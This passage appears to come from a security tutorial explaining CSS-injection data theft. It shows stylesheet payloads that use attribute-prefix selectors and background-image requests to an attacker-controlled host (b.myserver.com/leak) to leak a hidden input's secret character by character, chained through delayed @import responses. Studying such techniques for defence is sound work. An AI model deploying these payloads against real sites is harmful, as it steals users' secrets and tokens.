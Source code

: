 The key point is that although 8 are imported at once, "the server will hang for the next 7 requests and not respond", and only the first URL `https://myserver.com/payload?len=1` will return a response, which is the payload for stealing data mentioned earlier:

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://b.myserver.com/leak?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://b.myserver.com/leak?q=z)
}
```

When the browser receives the response, it will first load the CSS above, and after loading, elements that meet the conditions will send requests to the backend. Assuming the first character is d, the server will then return the response of `https://myserver.com/payload?len=2`, which is:

``` css
input[name="secret"][value^="da"] {
  background: url(https://b.myserver.com/leak?q=da)
}

input[name="secret"][value^="db"] {
  background: url(https://b.myserver.com/leak?q=db)
}

input[name="secret"][value^="dc"] {
  background: url(https://b.myserver.com/leak?q=dc)
}

//....

input[name="secret"][value^="dz"] {
  background: url(https://b.myserver.com/leak?q=dz)
}
```

This process can be repeated to send all characters to the server, relying on the feature that `import` will load resources that have already been downloaded and then wait for those that have not yet been downloaded.

One thing to note here is that you will notice that the domain we load the style from is `myserver.com`, while the domain of the background image is `b.myserver.com`. This is because browsers usually have a limit on the number of requests that can be loaded from a single domain at the same time. Therefore, if you use only `myserver.com`, you will find that the request for the background image cannot be sent out and is blocked by CSS import.
